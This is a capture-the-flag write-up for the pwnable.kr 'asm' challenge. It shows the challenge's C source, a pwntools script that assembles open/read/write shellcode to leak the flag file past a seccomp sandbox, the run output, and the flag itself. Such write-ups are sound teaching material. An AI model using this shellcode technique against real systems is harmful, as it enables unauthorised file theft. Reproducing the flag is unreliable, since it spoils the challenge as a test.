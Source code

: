 ```yaml
---
title: "Pwnable.kr - asm"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/pwnable.kr/thumbnails/pwnable.png
ribbon: green
description: "This challenge is asking for x64 shellcode to read the flag file, it's using some `seccomp rules` to limit us to only use `open/read/write/exit` syscalls (so we cannot spawn a shell).
We can write some assembly (painful) or we can use pwntools..."
categories:
  - CTF Writeups
---
```


> Challenge description:
>
> Mommy! I think I know how to make shellcodes



```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <seccomp.h>
#include <sys/prctl.h>
#include <fcntl.h>
#include <unistd.h>

#define LENGTH 128

void sandbox(){
	scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
	if (ctx == NULL) {
		printf("seccomp error\n");
		exit(0);
	}

	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

	if (seccomp_load(ctx) < 0){
		seccomp_release(ctx);
		printf("seccomp error\n");
		exit(0);
	}
	seccomp_release(ctx);
}

char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char* argv[]){

	setvbuf(stdout, 0, _IONBF, 0);
	setvbuf(stdin, 0, _IOLBF, 0);

	printf("Welcome to shellcoding practice challenge.\n");
	printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
	printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
	printf("If this does not challenge you. you should play 'asg' challenge :)\n");

	char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
	memset(sh, 0x90, 0x1000);
	memcpy(sh, stub, strlen(stub));
	
	int offset = sizeof(stub);
	printf("give me your x64 shellcode: ");
	read(0, sh+offset, 1000);

	alarm(10);
	chroot("/home/asm_pwn");	// you are in chroot jail. so you can't use symlink in /tmp
	sandbox();
	((void (*)(void))sh)();
	return 0;
}
```

This challenge is asking for x64 shellcode to read the flag file, it's using some `seccomp rules` to limit us to only use `open/read/write/exit` syscalls (so we cannot spawn a shell).

We can write some assembly (painful) or we can use pwntools to do the work for us :)

We need to open the flag file, read it's content then write this content to stdout and exit, simple as that.

The given assembly `stub` that will run first is just zeroing out all the registers.

# Solution:

```python
# solve.py

from pwn import *

context(arch='amd64', os='linux')

file_name = 'this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong'
length = 50

shellcode = asm(
	shellcraft.open(file_name) +
	shellcraft.read('rax', 'rsp', length) +
	shellcraft.write(1, 'rsp', length) +
	shellcraft.exit(0))

sh = ssh('asm', 'pwnable.kr', password='guest', port=2222)
p = sh.remote('0', 9026)

print(p.recv())
p.sendline(shellcode)
print(p.recv())
```

```
$ python solve.py
[+] Connecting to pwnable.kr on port 2222: Done
[+] Connecting to 0:9026 via SSH to pwnable.kr: Done
Welcome to shellcoding practice challenge.
In this challenge, you can run your x64 shellcode under SECCOMP sandbox.
Try to make shellcode that spits flag using open()/read()/write() systemcalls only.
If this does not challenge you. you should play 'asg' challenge :)
give me your x64 shellcode: 
Mak1ng_shelLcodE_i5_veRy_eaSy
lease_read_this_file
```

Flag: `Mak1ng_shelLcodE_i5_veRy_eaSy`
